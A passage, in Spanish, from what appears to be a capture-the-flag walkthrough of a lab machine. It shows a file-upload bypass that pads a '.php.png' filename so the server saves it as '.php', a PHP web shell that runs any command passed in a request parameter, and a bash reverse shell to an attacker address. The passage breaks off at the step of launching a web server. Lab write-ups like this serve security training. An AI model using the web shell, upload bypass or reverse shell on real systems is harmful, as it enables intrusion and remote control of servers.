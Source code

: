  con una extesion 
```bash
 .php.png 
```

la web va a ver que el fichero es un ficher 
```bash
 .png 
```
 pero al momento de guardarlo, va a guardar los 235 primeros caracteres que equivalen a 
```bash
 231 A 
```
 y la extension 
```bash
 .php 
```


Creamos un fichero php

```php
touch AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.png
vi AAAAAA*

<?php
    echo "<pre>" .shell_exec($_REQUEST['cmd']) ."</pre>";
?>
```

Si enviamos este fichero, vemos que el fichero se a enviado como fichero **.png** pero salvado como fichero **.php** si vamos a la url 
```bash
 http://10.10.10.73/uploads/0026-2354_e426c9e8c2f64caa/AAAAAAAAAA.......AAAA.php?cmd=whoami 
```

vemos que somos 
```bash
 www-data 
```
.
## Vuln exploit & Gaining Access {-}

### Ganando accesso desde la s4vishell.php {-}

1. Creamos un fichero index.html con el contenido siguiente

    ```bash
    #!/bin/bash

    bash -i >& /dev/tcp/10.10.14.15/443 0>&1
    ```

1. lanzamos un servidor web con python

